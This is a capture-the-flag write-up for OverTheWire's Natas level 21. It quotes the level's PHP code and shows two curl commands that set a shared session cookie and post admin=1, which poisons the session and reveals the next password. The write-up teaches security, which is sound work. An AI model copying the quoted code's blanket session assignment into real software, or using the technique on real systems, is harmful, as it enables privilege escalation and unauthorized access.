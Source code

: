 # This is a write-up for Natas - level 21

This level requires you to navigate two pages.

In essence, the main page doesn't allow you to modify session data, but if admin=1 in the $_SESSION array, it will print the credentials.
The other page allows you to modify session data, as we dive into here:

The following code sets up the form variable, which is essentially just html code for the page, and it also sets some default values for the three variables align, fontsize and bgcolor.

```php
<?
// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>

Now, the interesting code is this:

```php
<?
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
?>
```

Every key:value pair in the post request is stored in the session. This is briliant! We can send a post request to the experimenter page that sets admin to 1 and then go back to the main page and be done. 

The only issue is the session id. However, this can be set with the --cookie option in our curl requests. As long as they match up in the request to the experimenter and to the main page, it will work :D

<details>
    <summary>
        First curl request
    </summary>
curl -u natas21:<pwd> --cookie "PHPSESSID=adminsesh" http://natas21.natas.labs.overthewire.org/
</details>

<details>
    <summary>
        Second curl request
    </summary>
curl -u natas21:<pwd> -d "submit=Update&admin=1" --cookie "PHPSESSID=adminsesh" http://natas21-experimenter.natas.labs.overthewire.org/
</details>

